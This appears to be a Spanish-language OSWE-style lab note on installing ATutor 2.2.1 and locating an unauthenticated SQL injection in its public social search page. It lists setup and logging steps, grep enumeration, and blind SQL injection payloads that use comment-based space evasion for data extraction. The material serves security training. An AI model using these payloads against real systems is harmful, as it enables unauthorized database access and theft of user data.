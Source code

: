 ### Configuracion Atutor 2.2.1
- Descarga [https://sourceforge.net/projects/atutor/files/atutor_2_2_1/](https://sourceforge.net/projects/atutor/files/atutor_2_2_1/)

- POC: http://192.168.100.28/atutor/mods/_standard/social/index_public.php?q='

- Instalación

```
OS:  Ubuntu 14.04.6 LTS
mysql  atutor:atutor 5.6.16-1~exp1-log
PHP 5.5.9-1ubuntu4

[X] mysql
add (php.ini)
extensión=mysqli
extensión=pdo_mysql
restart apache2

[WARNING]
sudo apt-get install php5-gd
sudo apt-get install php5-curl
restart apache2

CONFIGURACION (FILE UPLOAD)
/var/www/html/atutor/include/classes/pclzip.lib.php
REEMPLAZAR
[gzopen]  -> [gzopen64]
[@gzopen] -> [@gzopen64]
CONF RCE OSWE
sudo chmod 757 ./atutor/mods/
```


----

#### Configurando el entorno MYSQL LOG
```
student@atutor:~$ sudo nano /etc/mysql/my.cnf <> /etc/mysql/mariadb.conf.d/50-server.cnf
[mysqld]
general_log_file = /var/log/mysql/mysql.log 
general_log = 1

student@atutor:~$ sudo systemctl restart mysql

sudo tail –f /var/log/mysql/mysql.log
```

Añadir al archivo ```/etc/php5/apache2/php.ini```
```
[...]
display_errors = On 
[...]
```

Reinicar apache
```
student@atutor:~$ sudo systemctl restart apache2
```

----

Todas las páginas que no requieren autenticación contienen la siguiente línea en su código fuente  
```
$_user_location = 'public'; 
```

Enumerar todas las páginas a las que podíamos acceder sin autenticación  
```
grep -rnw /var/www/html/ATutor -e "^.*user_location.*public.*" -color
```

Después de pasar un tiempo haciéndolo, descubrimos un hallazgo potencialmente interesante. Miremos el código encontrado en ```/var/www/html/ATutor/mods/_standard/social/index_public.php``` 
```
14: $_user_location = 'public'; 15: 
16: define('AT_INCLUDE_PATH', '../../../include/'); 
17: require(AT_INCLUDE_PATH.'vitals.inc.php'); 
18: require_once(AT_SOCIAL_INCLUDE.'constants.inc.php'); 
19: require(AT_SOCIAL_INCLUDE.'friends.inc.php'); 
20: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyObject.class.php'); 
21: require(AT_SOCIAL_INCLUDE.'classes/PrivacyControl/PrivacyController.class.php'); 
```

 ```
 grep -rnw /var/www/html/ATutor -e "function searchFriends" --color
 ```

## PHP
- `isset`: Si tiene valor devuelve un **true**  
- `intval`: Obtiene el valor entero de una variable  
- `àddslashes`: Devuelve una cadena con barras invertidas añadidas antes de los caracteres que deben escaparse (',",\,NUL)  
- `continue`:se utiliza dentro de las estructuras iterativas para saltar el resto de la iteración actual del bucle y continuar la ejecución en la evaluación de la condición, para luego comenzar la siguiente iteración.

-----
## Exfiltracion de datos
```
> select/**/1;
> AAAA')/**/or/**/(select/**/1)=1%23 
> AAAA')/**/or/**/(select/**/1)=0%23
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=1#%');\n;
>  SELECT count(*) FROM AT_members M WHERE (first_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR second_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR last_name LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%' OR login LIKE 
'%AAAA')/**/or/**/(select/**/1)=0#%');\n;
```


